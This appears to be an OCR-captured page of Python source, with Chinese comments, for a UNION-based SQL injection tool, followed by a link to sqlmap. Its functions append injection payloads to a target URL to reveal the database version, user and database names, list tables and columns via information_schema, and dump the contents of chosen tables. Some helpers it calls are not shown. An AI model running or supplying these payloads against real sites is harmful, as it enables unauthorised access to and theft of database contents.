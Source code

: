 ```python
# 打印基本信息
def baseInfo(url):
    vurl = url + '1 union select 1,concat(0x7177657E,version(),0x7E717765),2,3'
    durl = url + '1 union select 1,concat(0x7177657E,database(),0x7E717765),2,3'
    uurl = url + '1 union select 1,concat(0x7177657E,user(),0x7E717765),2,3'
    version =  list(set(extractData(vurl)))
    database = list(set(extractData(durl)))
    user = list(set(extractData(uurl)))
    print('='* 45)
    print('version:',version[0],'\ndatabase:',database[0],'\nuser:',user[0])
    print('='*45)


# 打印所有数据库名称
def databaseName(url):
    url += DATABASE_REQUEST
    db_name = list(set(extractData(url)))
    print('database:')
    for i,j in enumerate(db_name):
        print("[+] %-30s\t" %j,end='')
        if not (i + 1)%3:
            print('')


# 打印所有表名
def tableName(url):
    url += "1 union select 1,concat(0x7177657E,table_name,0x7E717765),3,4 from information_schema.tables"
    tb_name = sorted(list(set(extractData(url))))
    print('\n\ntable:')
    for i,j in enumerate(tb_name):
        print("[+] %-30s\t" %j,end='')
        if not (i + 1)%3:
            print('')


# 打印特定表的字段名称
def fieldName(url,tb_name):
    field = []
    url += "1 UNION SELECT 1,concat(0x7177657E,table_name,':', column_name,0x7E717765),3,4 FROM information_schema.columns"
    fd_name = list(set(extractData(url)))
    for i in fd_name:
        prime,final = i.split(':')
        if prime == tb_name and final:
            field.append(final)
    for i,j in enumerate(field):
        print("[+] %-30s\t" %j,end='')
        if not (i + 1)%3:
            print('')

# 提取数据
def fetchData(url,tb_name,fd_name):
    clear = fd_name.split()
    fd_name = ",':',".join(clear)
    url += '1 UNION SELECT 1,concat(0x7177657E,{},0x7E717765),3,4 FROM {}'.format(fd_name,tb_name)
    datas = list(set(extractData(url)))
    for d in datas:
        d = d.split(':')
        if len(clear) == len(d):
            print('[+]',end = ' ')
            for i,j in zip(clear,d):
                print("%-35s" %(i + ':' + j),end = '\t')
```

[sqlmap]: https://github.com/sqlmapproject/sqlmap 